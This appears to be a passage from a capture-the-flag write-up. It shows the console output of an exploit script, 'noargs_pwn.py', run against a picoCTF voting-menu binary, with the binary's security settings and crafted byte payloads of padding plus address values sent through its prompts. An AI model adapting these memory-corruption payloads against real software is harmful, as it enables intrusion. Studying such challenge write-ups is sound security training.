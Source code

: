 #### Output:

```
$ python3 noargs_pwn.py
[*] './no-args'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RPATH:    b'./'
[+] Starting local process './no-args': pid 10571
Vote for your Favorite Problems from picoCTF 2018!
1. Choose a Problem
2. Vote for a Problem
3. View Results
4. Exit
>
1

Enter the Name of the Problem you want to Vote for
>
b'\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff0 `\x00\x00\x00\x00\x00'
Vote for your Favorite Problems from picoCTF 2018!
1. Choose a Problem
2. Vote for a Problem
3. View Results
4. Exit
>
1

Enter the Name of the Problem you want to Vote for
>
dummy
Vote for your Favorite Problems from picoCTF 2018!
1. Choose a Problem
2. Vote for a Problem
3. View Results
4. Exit
>
1

Enter the Name of the Problem you want to Vote for
>
no-args
Vote for your Favorite Problems from picoCTF 2018!
1. Choose a Problem
2. Vote for a Problem
3. View Results
4. Exit
>
2

n
List Problems? (y/n) Which Problem do you want to vote for?
choose
> You can't choose choose because that was last year's master pwn, NO arguments! Would you like to vote for this year's instead?
b'yes\x00                              `\x00\x00\x00\x00\x00n'
> Vote for your Favorite Problems from picoCTF 2018!
1. Choose a Problem
2. Vote for a Problem
3. View Results
4. Exit
```